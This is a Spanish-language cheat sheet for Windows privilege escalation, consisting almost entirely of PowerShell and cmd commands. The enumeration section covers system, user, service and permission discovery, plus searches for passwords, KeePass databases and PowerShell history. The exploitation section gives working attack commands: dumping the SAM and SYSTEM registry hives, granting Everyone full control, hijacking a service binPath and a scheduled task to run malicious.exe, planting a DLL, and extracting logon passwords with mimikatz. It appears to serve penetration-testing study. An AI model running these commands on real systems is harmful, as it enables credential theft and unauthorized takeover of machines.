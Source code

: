 # Cheat Sheet: Escalación de Privilegios en Windows**

## 🔍 Sección 1: Enumeración

### 1. Información del sistema

```powershell
systeminfo
wmic os get Caption, Version, Architecture
whoami /priv
whoami /groups
```

### 2. Usuarios y grupos

```powershell
net user
net localgroup Administrators
quser
Get-LocalUser | Select Name,Enabled,LastLogon
Get-LocalGroupMember <group>

```

### 3. Permisos y archivos sensibles

```powershell
icacls C:\ruta\archivo
findstr /si password *.txt *.ini *.config
(Get-PSDrive -PSProvider FileSystem).Root | ForEach-Object {Get-ACL $_}
```

### 4. Procesos y tareas en ejecución

```powershell
tasklist /v
wmic process list full
Get-Process | Select-Object Name,Id,Path
```

### 5. Servicios y conexiones

```powershell
netstat -ano
sc query state= all
Get-Service | Select Name,StartType,Status
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'} // ejemplo con mySQL
Get-ModifiableServiceFile // Servicios que el usuario puede modificar
```

### 6. Tareas programadas y servicios inseguros

```powershell
schtasks /query /fo LIST /v
Get-ScheduledTask | Where-Object {$_.State -eq "Ready"}
```

### 7. Variables de entorno

```powershell
env | fl
(Get-Item Env:Path).Value -split ';'
```

### 8. Capacidades de binarios

```powershell
wmic path win32_service get Name,PathName,StartMode
Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections
```

### 9. Control de acceso remoto

```powershell
qwinsta
query user
netsh advfirewall show currentprofile
```
### 10. Aplicaciones instaladas:
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
### 11. Archivos de bases de datos y configuracion
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```
### 12. Powershell info, history, user trace
```
Get-History
(Get-PSReadlineOption).HistorySavePath

```


## 💥 Sección 2: Explotación

### 1. Abuso de permisos en archivos y directorios

```powershell
icacls C:\ruta\archivo /grant Everyone:F
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

### 2. Tareas programadas y servicios inseguros

```powershell
schtasks /create /tn "MaliciousTask" /tr C:\malicious.exe /sc ONCE /st 00:00
sc config VulnService binPath= "C:\malicious.exe"
```

### 3. Uso de runas y bypass UAC

```powershell
runas /user:Administrador cmd.exe
Start-Process PowerShell -Verb RunAs
```

### 4. Explotación de servicios vulnerables

```powershell
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -like "*unquoted path*"}
```

### 5. Abuso de binarios con permisos incorrectos

```powershell
wmic service where "PathName like '%inseguro%'" get Name,PathName
```

### 6. Inyección de DLL y ejecución maliciosa

```powershell
Copy-Item .\malicious.dll "C:\Program Files\VulnerableApp\malicious.dll"
```

### 7. Credenciales en memoria

```powershell
mimikatz.exe
sekurlsa::logonpasswords
```

### 8. Kernel Exploits

```powershell
whoami /priv
```
